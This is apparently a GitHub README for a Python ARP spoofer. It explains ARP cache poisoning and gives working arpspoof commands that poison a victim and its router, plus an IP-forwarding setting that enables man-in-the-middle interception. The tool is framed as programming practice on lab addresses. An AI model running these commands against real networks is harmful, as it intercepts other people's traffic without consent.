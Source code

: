 # ARP Spoofer

ARP spoofing, ARP cache poisoning, or ARP poison routing, is a technique by which an attacker sends an ARP request to a device on a local area network, associating its MAC address with the IP addresses of other devices. 
Most likely this includes the default router or gateway, causing any traffic from the local network meant for it to be sent to the attacker instead.

There are many existing tools, like `arpspoof` that can do this.

From the hacking machine to the victim machine:

```shell
$ sudo arpspoof -i eth0 -t 192.168.122.75 192.168.122.1
```

and to the router:

```shell
$ sudo arpspoof -i eth0 -t 192.168.122.1 192.168.122.75
```

and setting enabling forward (not persistent) on the hacking machine:

```shell
$ sudo sysctl -w net.ipv4.ip_forward=1
```

And programming such an ARP Spoofer is excellent practice.

## Requirements

* Root access
* Python 3
* Scapy

## Usage

```shell
usage: arp_spoofer.py [-h] [-t TARGET_IP] [-s SPOOF_IP]
```

Example:

```shell
$ sudo sysctl -w net.ipv4.ip_forward=1
$ sudo python3 arp_spoofer.py -t 192.168.122.75 -s 192.168.122.1
```